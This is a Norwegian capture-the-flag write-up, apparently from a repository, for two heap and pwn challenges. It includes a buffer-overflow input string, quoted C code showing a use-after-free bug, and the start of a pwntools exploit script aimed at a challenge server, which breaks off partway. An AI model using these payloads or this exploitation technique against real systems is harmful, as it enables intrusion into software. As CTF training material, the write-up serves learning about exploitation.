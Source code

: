 <details><summary>Flagg</summary></details>



# PWN

## HEAPING AROUND

### Oppgave

Hele oppgavebeskrivelsen finnes [her](pwn/heaping_around/challenge.md)

### Løsning

Enkel buffer overflow med 100 bytes buffer:

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnot_so_secret`

<details><summary>Flagg</summary></details>


## HEAPING AROUND 2

### Oppgave

Hele oppgavebeskrivelsen finnes [her](pwn/heaping_around_2/challenge.md)

### Løsning

Problemet vi kan utnytte ligger i altertiver for å frigjøre minne. Problemet er at hverken minnet eller pointeren dit blir slettet på riktig måte når vi frigjør minnet:
```c
if (current_pointer > 0){
    printf("\nWhich pointer do you want to free? (%i-%i)", 0, current_pointer - 1);

    int idx;
    scanf("%i", &idx);
    getchar();

    free(pointers[idx]);

    current_pointer--;

    printf("\nFreed 64 bytes om memory at %p\n", &pointers[current_pointer]);
}
```

Det gjør at når vi senere plasserer flagget på det samme stedet har vi allerede en pointer som peker dit og en funksjon som henter den ut. Ganske simpelt:

```py
from pwn import *

# Connect
io = remote("10.212.138.23", 53364)
# io = process("/heaping_around_2/heaping_around_2")

# Create pointer 1, 64 bytes
print("Allocating pointer 1")
io.sendlineafter(b"choice:", b"1")
io.sendlineafter(b"allocate?", b"64")

# Create some pointer 2
print("Allocating pointer 2")
io.sendlineafter(b"choice:", b"1")
```